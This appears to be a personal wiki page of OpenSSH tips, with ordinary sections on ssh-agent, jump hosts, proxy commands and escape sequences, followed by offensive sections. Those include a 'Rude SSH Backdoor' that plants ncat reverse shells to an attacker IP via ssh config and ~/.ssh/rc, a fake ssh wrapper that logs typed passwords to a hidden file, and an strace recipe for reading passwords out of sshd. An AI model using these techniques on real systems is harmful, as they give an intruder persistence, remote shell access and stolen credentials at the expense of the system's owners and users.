 ```yaml
---
title: OpenSSH
description: A quick summary of Openssh
published: true
date: 2023-01-14T04:10:15.813Z
tags: 
editor: markdown
dateCreated: 2022-10-01T21:23:50.953Z
---
```



# SSH Agent
```
eval `ssh-agent`
ssh-add # Will add all keys from ~/.ssh
ssh-add -l # Displays the added keys
```

then use ssh -A to forward 


# Resuming an SCP transfer
```
rsync -e ssh \
--partial --append \
--progress \
remote.example.org:/path/to/file .
```

# Using a Jumphost
```
ssh -D 12344 -J me@jumphost root@unreachable-host
```

# Proxy Command
```
ssh -o ProxyCommand="ssh -W %h:%p bob@10.10.10.10" bob@remote
ssh -o ProxyCommand="ncat --proxy proxyhsot 1080 %h %p" bob@remote
```

# AUTOSSH
```
#Run on remote host
autossh -M 0 -o "ServerAliveInterval 30" -o "ServerAliveCountMax 3" -R 127.0.0.1:2222:127.0.0.1:22 hackbox

#Run on hackbox
ssh -P 2222 bob@localhost
get into remote box
```

# Stuff inside ssh
```
~? - help message
~# show forwarded connections.
~~ send excape character (by doing it twice)
?C - Command Line

CommandLineCommands
ssh> ?
Commands:
      -L[bind_address:]port:host:hostport    Request local forward
      -R[bind_address:]port:host:hostport    Request remote forward
      -D[bind_address:]port                  Request dynamic forward
      -KL[bind_address:]port                 Cancel local forward
      -KR[bind_address:]port                 Cancel remote forward
      -KD[bind_address:]port                 Cancel dynamic forward
```

# Rude SSH Backdoor
```
#cat ~/ssh/config

Hostname *
	PermitLocalCommand true
	Localcommand ncat -e /bin/bash <MYIP> 4141 &

```

```
# cat ~/.ssh/rc
ncat -e /bin/bash <MYIP> 4141 &
```

# Rude password grabber
```
# cat /usr/local/bin/ssh

#!/bin/bash
read -esp "${1}'s password: " password
echo "$1 - $password" >> /tmp/.creds
echo
 /usr/bin/ssh $@
 
```

# Pull passwords out of ssh
ps --ppid 1 | grep sshd
strace -f -p 641 -e read |& grep -F "\f\0\0\0"

[pid 2235] read(6, "\f\0\0\0\10secret", 10) = 10
